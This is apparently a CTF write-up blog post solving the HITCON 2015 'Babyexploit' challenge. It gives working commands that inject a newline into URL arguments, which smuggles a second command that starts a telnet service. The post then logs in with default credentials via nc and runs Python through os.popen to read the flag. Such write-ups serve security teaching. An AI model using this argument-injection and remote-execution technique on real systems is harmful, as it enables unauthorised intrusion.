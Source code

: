 ```yaml
---
layout: post
title: "HITCON 2015 Quals: Babyexploit"
modified: 2015-10-19
tags: hitcon hitcon2015quals
---
```

*This challenge was solved by one of my teammates, nguyen and me and the write up was written by me.*  

Run this on one thread:

{% highlight bash %}
while true; do wget -qO- "http://52.68.245.164/?args[]=abc%0a&args[]=twistd&args[]=telnet" > /dev/null; done
{% endhighlight %}

This works because $ in regex allows \n too (\Z would not allow this), so it will run the following commands:

{% highlight bash %}
/bin/orange abc
twistd telnet
{% endhighlight %}

Connect on another thread: nc 52.68.245.164 4040 (this is the port of the twistd telnet service), user/pass: admin/changeme (default credentials) and execute this until you got the flag: `import os;print os.popen("/read_flag").read();`

{% highlight bash %}
python -c "import sys;sys.stdout.write(\"admin\r\nchangeme\r\nimport os;
print '%r'%os.popen('/read_flag').read();\r\n\")"|nc 52.68.245.164 4040
{% endhighlight %}

Sometimes you have to try it multiple times, because the process is killed very fast.